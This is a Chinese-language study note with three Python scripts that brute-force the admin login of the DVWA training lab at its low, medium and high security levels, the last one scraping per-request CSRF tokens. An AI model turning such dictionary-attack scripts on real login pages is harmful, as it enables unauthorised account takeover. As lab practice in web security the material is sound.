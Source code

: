 # 使用python脚本暴力破解用户名和密码

## DVWA靶场

### low等级

```
import requests
import re

headers = {
    "Cookie": "PHPSESSID=522qlnikn69r17qctp2a6ed6m1; security=low" # 自己抓包获取的cookie
}
url = "http://dvwa/vulnerabilities/brute/" //要爆破的网址
res = requests.get(url, headers=headers)
# 一行一行读取密码字典，读取结果会自动在每一行拼接换行符，所以需要通过[:-1]获取密码的内容
# [:-1]表示去掉末尾的换行符，直接获取到password
filepasswords = open("password.txt", "r")
passwords = filepasswords.readlines()

for password in passwords:
    response = requests.get(url + "?username=admin" + "&password=" + password[:-1] + "&Login=Login", headers=headers)
    if not re.findall("Username and/or password incorrect", response.text):
        print("admin ===> " + password[:-1])

```

本质上就是利用脚本发送请求，遍历字典里的每一个密码，知道成功发送请求为止，不过这个脚本是在确定用户名为admin的情况下使用的

不得不承认，用python脚本爆破确实挺方便的，但是就是我不太会用python，必须加入学习项目了，一定要学会自己写脚本！！

### medium等级

```
import httplib2
import re

# 创建一个http对象
h = httplib2.Http( )
url = "http://dvwa/vulnerabilities/brute/"
header = {"cookie" : "security=medium"}
response,content=h.request(url,headers=header)
cookie = response["set-cookie"]

cookie = "522qlnikn69r17qctp2a6ed6m1"  #这里的cookie特指PHPSESSID=>作为变量存在
cookie = "security=medium; PHPSESSID="+cookie
header={"cookie": cookie}

filepasswords = open("password.txt","r")
passwords = filepasswords.readlines()

for password in passwords:
    tmp = url+"?username=admin"+"&password="+password[:-1]+"&Login=Login"
    # 发送GET请求
    res, content = h.request(tmp, "GET", "", header)
    if not re.findall("Username and/or password incorrect", str(content, encoding='utf-8')) or re.findall("CSRF token", str(content, encoding='utf-8')):
        print("admin ===> " + password[:-1])

```

![72727325201](assets/1727273252019.png)

### high等级

```
import requests
import re

headers = {
    "Cookie": "PHPSESSID=522qlnikn69r17qctp2a6ed6m1; security=high"
}
url = "http://dvwa/vulnerabilities/brute/"
res = requests.get(url,headers=headers)

# 从一个 HTML 页面中提取一个 <input> 标签的 value 属性值，赋值给变量 token。
token = re.findall("<input.*?value=\'(.*?)' />", res.text)[0]

filepasswords = open("password.txt","r")
passwords = filepasswords.readlines()

for password in passwords:
    response = requests.get(url+"?username=admin"+"&password="+password[:-1]+"&Login=Login&user_token="+token, headers=headers)
    token = re.findall("<input.*?value=\'(.*?)' />", response.text)[0]
    if not re.findall("Username and/or password incorrect", response.text) or re.findall("CSRF token", response.text):
        print("admin ===> " + password[:-1])

```

![72727502718](assets/1727275027187.png)

high等级low和medium等级的基础上，多了一个token，token可不是固定值，利用正则表达式可以拿到每一次的input内的value值(也就是taken值)，从而进行爆破







































